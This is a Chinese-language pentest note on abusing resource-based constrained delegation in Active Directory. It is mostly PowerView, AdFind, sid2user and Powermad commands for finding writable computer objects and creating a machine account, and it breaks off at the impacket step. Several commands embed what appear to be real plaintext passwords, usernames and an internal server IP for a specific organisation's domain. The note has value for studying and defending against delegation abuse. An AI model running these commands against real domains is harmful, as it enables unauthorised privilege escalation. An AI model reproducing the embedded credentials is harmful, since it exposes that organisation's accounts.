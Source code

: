 ```yaml
---
title: "基于资源的约束委派"
date: 2023-09-228 10:09:23 +0800
category: 渗透测试
tags: [内网,渗透测试,ADCS,域]
excerpt: 基于资源的约束委派
---
```

## 条件
+ msDS-AllowedToActOnBehalfOfOtherIdentity
默认情况下,只有添加这个计算机的域用户和计算机本身可以修改msDS-AllowedToActOnBehalfOfOtherIdentity这个属性
而设置委派的必须是一个SPN账户,域内机器默认就是,理论上域内的服务用户也可以(只要具有SPN记录)
### Account Operators组
+ 获得的用户在Account Operators组
		其实获得域用户之后就可以查看这个域用户对哪些机器有写权限
	假设获取到的用户是sp3dadmin  密码是s.3d~
	可以使用 powerview的 Get-DomainObjectAcl 
## 查看是否对机器有写权限
```
Import-Module .\powerview.ps1
//查询sp3dadmin的SID
Get-DomainUser -Identity sp3dadmin -Properties objectsid
//查看是否有对Archives2有写权限
Get-DomainObjectAcl -Identity HLSPRDDB02.s.com  | ?{$_.SecurityIdentifier -match "liming的SID"}
//查看域内有可写权限得主机
Get-DomainObjectAcl | ?{$_.SecurityIdentifier -match "S-1-5-21-1648181978-695183694-701290457-8562"}
//认证
$SecPassword = ConvertTo-SecureString 'Cmx10086*' -AsPlainText -Force ; $Cred = New-Object System.Management.Automation.PSCredential('it.ln.cmcc\caomingxing', $SecPassword) ; Get-DomainUser -Domain it.ln.cmcc -Server 10.204.41.8 -Identity caomingxing -Properties objectsid -Credential $Cred
//查看域内有可写权限得主机
powerpick $SecPassword = ConvertTo-SecureString '1qaz@WSX' -AsPlainText -Force ; $Cred = New-Object System.Management.Automation.PSCredential('it.ln.cmcc\DW-WANGYONGGANG', $SecPassword) ; Get-DomainObjectAcl -Domain it.ln.cmcc -Server 10.204.41.8 -Credential $Cred| ?{$_.SecurityIdentifier -match "S-1-5-21-1352180223-1996502029-1454869117-43953"} 


//查找哪个机器是哪个用户加入域的
AdFind.exe -h ldapIP(dcIP) -u 用户名 -up 密码 -b "DC=shigophilo,DC=com" -f "objectClass=computer" mS-DS-CreatorSID
//查询sid对应的用户名
///sid2user.exe 工具查询，需要把 - 去掉
sid2user.exe \\192.168.10.2  5 21 587556175 550635965 2643831430 1107
///域用户可以查询域内所有账户的sid值
wmic useraccount get /all | findstr  S-1-5-21-587556175-550635965-2643831430-1107 > 2.txt

```
## 创建机器账号
+ powermad.ps1
```
//创建机器帐号:0shigophilo 密码:shigophilo@123
Import-Module .\powermad.ps1
New-MachineAccount -MachineAccount 0shigophilo -Password $(ConvertTo-SecureString "shigophilo@123" -AsPlainText -Force)
```
+ impacket
```
//会随机生成机器名和密码,也可以指定
```